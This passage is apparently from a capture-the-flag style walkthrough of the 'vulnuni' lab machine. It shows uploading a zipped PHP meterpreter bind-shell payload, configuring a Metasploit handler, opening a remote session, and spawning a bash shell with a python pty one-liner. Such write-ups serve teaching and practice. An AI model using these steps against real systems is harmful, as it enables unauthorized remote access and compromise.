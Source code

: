 Before the exploit could be uploaded to the application, it needed to be zipped and compressed. Once zipped, I uploaded it to the vulnuni webserver.

```text
root@kali$ zip bind-meterpreter bind-meterpreter.php 
  adding: bind-meterpreter.php (deflated 62%)
```

## Target Infiltration

With the exploit ready, I started a metasploit session and opened a multi/handler to connect to the bind shell.

```text
root@kali$ msfconsole

msf5 > use multi/handler
msf5 exploit(multi/handler) > set LHOST 192.168.8.130
LHOST => 192.168.8.130
msf5 exploit(multi/handler) > set RHOST 192.168.8.132
RHOST => 192.168.8.132
msf5 exploit(multi/handler) > set LPORT 4448
LPORT => 4448
msf5 exploit(multi/handler) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
```

I set the necessary LPORT, LHOST, RHOST, and payload options. Before I launched the handler, I browsed the payload on the target website to initiate the bind shell. Once the payload loaded, I ran the handler and received the shell.

```text
root@kali$ msf5 >

msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.8.132:4448
[*] Sending stage (38288 bytes) to 192.168.8.132
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.8.132:4448) at 2020-05-12 00:43:47 -0400
```

![](https://i1.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-12-at-12.45.13-AM-1024x554.png?resize=768%2C416&ssl=1)

I spent some time running through meterpreter enumeration scripts to gather more details on the target. Once I gathered enough information, I dropped into a shell to run some linux privilege escalations scripts. Using the shell command, I dropped into a low interactive shell. To upgrade, I ran the following exports and used a simple python script to open up a bash shell.

```text
root@kali$ meterpreter > shell
Process 2181 created.
Channel 1 created.
export TERM=xterm
export SHELL=bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python -c ‘import pty;pty.spawn(“/bin/bash”)’
www-data@vulnuni:/root@kali$
```
